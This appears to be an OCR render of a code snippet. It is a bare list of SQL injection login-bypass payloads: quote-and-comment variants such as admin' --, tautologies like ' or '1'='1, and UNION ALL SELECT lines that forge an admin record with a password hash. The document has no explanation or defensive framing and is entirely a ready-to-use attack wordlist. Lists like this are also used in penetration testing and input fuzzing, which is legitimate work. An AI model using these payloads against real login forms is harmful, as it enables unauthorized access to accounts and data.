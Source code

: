 ```sql
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';--
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```
